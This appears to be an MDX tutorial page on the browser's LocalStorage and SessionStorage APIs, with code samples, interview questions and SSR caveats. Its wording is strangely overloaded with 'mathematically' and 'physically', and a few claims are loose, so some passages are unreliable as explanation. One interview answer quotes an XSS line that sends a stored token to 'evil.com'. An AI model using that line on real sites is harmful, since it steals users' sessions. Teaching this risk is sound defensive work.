

import { ConceptTemplate } from '@/features/kb/components/templates/ConceptTemplate'
import { Callout } from '@/features/kb/components/mdx/Callout'

export default function Layout({ children }) {
  return (
    <ConceptTemplate title="LocalStorage & SessionStorage">
      {children}
    </ConceptTemplate>
  )
}

Before HTML5, the only way to store mathematical state on the client's machine was using Cookies. Cookies are tiny (4KB limit) and are severely penalized by the fact that the browser mathematically attaches them to every single outbound HTTP request, wasting massive amounts of bandwidth.

The **Web Storage API** (comprising `LocalStorage` and `SessionStorage`) was engineered to solve this. It provides a massive (usually 5MB) internal database managed by the browser's C++ engine. Most critically, this data is strictly confined to the client. It is **never** automatically sent to the server in HTTP headers.

## 1. Deep Dive & Mechanics

Web Storage is mathematically implemented as a simple, synchronous Key-Value store. It can only store strings. It physically cannot store complex JavaScript objects, Arrays, or binary data unless you serialize them into strings first (via `JSON.stringify()`).

**The Mathematical Differences:**

1. **LocalStorage:** Data persists indefinitely. If the user closes the browser, shuts down their computer, and returns 3 years later, the data is still mathematically present. It is only destroyed if the JavaScript explicitly deletes it, or if the user clears their browser cache.
2. **SessionStorage:** Data mathematically persists only for the duration of the current Page Session. A session is strictly bound to the specific browser Tab. If the user duplicates the tab, a completely new, mathematically isolated SessionStorage instance is cloned. The exact microsecond the user closes the tab, the C++ engine physically wipes the data from RAM.

## 2. Mathematical / Theoretical Foundation

Web Storage is strictly governed by the **Same-Origin Policy (SOP)**. 

Storage is mathematically partitioned by the exact Origin (Protocol + Domain + Port).
- `https://app.google.com` cannot read the LocalStorage of `https://mail.google.com` (different subdomain).
- `http://localhost:3000` cannot read `http://localhost:3001` (different port).
- `http://amazon.com` cannot read `https://amazon.com` (different protocol).

This mathematical isolation prevents an attacker on `evil.com` from executing JavaScript that reads the sensitive tokens stored in the `bank.com` LocalStorage partition.

## 3. Real-World Implementation

Because the API is completely synchronous, reading and writing is trivial, but carries severe performance implications if abused.

```javascript
// 1. Storing complex mathematical state in LocalStorage
const userConfig = {
  theme: 'dark',
  notifications: true,
  lastLogin: Date.now()
};

// You MUST serialize it to a string. 
// If you pass the raw object, it mathematically converts to the useless string "[object Object]"
window.localStorage.setItem('user_config', JSON.stringify(userConfig));


// 2. Retrieving and parsing the mathematical state
const rawData = window.localStorage.getItem('user_config');

if (rawData) {
  try {
    const config = JSON.parse(rawData);
    console.log('Restored Theme:', config.theme);
  } catch (error) {
    console.error('Mathematical parsing failure. Storage may be corrupted.');
  }
}

// 3. Listening for Cross-Tab communication
// This event ONLY fires in OTHER tabs viewing the same Origin.
// It is a mathematical pub/sub mechanism to sync UI across multiple windows.
window.addEventListener('storage', (event) => {
  if (event.key === 'user_config') {
    console.log('Another tab updated the config!');
    console.log('Old Value:', event.oldValue);
    console.log('New Value:', event.newValue);
  }
});
```

## 4. Visualizations



## 5. Interview Prep

**Q: Is it safe to store JWT Auth Tokens in LocalStorage?**
**A:** Mathematically, no. LocalStorage is easily compromised by **Cross-Site Scripting (XSS)**. If an attacker manages to inject a single malicious `<script>` into your application (perhaps via a compromised NPM package), that script can easily execute `fetch('evil.com?token=' + localStorage.getItem('token'))`, instantly stealing the user's session. Secure authentication tokens should mathematically be stored in HttpOnly Cookies, which physically prevent the V8 JavaScript engine from reading them.

**Q: Why shouldn't you store massive amounts of data in LocalStorage?**
**A:** LocalStorage is a **Synchronous, Blocking API**. If you attempt to `JSON.stringify()` and write a massive 4MB array to LocalStorage, the browser's main mathematical thread is physically paused until the disk I/O operation completes. This will instantly drop the framerate, freezing all CSS animations and preventing the user from clicking buttons. For large datasets, you must use IndexedDB, which is entirely asynchronous.

## 6. Production Use Cases

- **Optimistic UI Caching:** When building a complex React application, developers often store non-sensitive state (like the structural JSON of a kanban board) in LocalStorage. When the user reloads the page, the application immediately reads LocalStorage and paints the UI in 50 milliseconds, making the app feel incredibly fast. It then mathematically fires a background HTTP request to fetch the freshest data from the server, replacing the cache if it detects differences.
- **Form Auto-Save:** Complex, multi-page data entry forms utilize `SessionStorage`. On every keystroke, the input value is synced to SessionStorage. If the user accidentally hits the browser's "Refresh" button, the React component mathematically mounts, checks SessionStorage, and instantly repopulates the input fields, preventing catastrophic data loss for the user.

<Callout icon="info" title="The SSR Hydration Mismatch">
If you are using Server-Side Rendering (Next.js / Nuxt), you must be mathematically careful with LocalStorage. The Node.js server rendering the HTML does not have a `window` object. If your React component tries to read LocalStorage during the initial render, the server will crash, or the server will render Light Mode while the client browser tries to render Dark Mode, resulting in a mathematical Hydration Error. You must ensure LocalStorage is only read inside `useEffect` hooks, which only execute on the client.
</Callout>
